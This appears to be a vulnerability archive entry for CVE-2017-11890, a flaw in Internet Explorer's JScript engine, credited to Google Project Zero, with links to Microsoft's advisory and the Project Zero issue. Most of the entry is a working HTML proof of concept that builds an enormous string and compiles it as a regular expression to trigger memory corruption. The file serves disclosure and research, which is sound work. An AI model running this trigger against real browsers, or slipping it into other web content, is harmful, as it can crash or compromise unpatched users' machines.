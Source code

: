 # CVE-2017-11890

- Report: Oct 2017
- Fix: Dec 2017
- Credit: ifratric of Google Project Zero

## PoC

```html
<script language="Jscript.Encode">

var s = 'a';
for(var i=0;i<28;i++) {
  s = s+s;
}
s = s+'[a-z]'+s;

r = new RegExp();
r.compile(s);

</script>
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2017-11890)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1369)
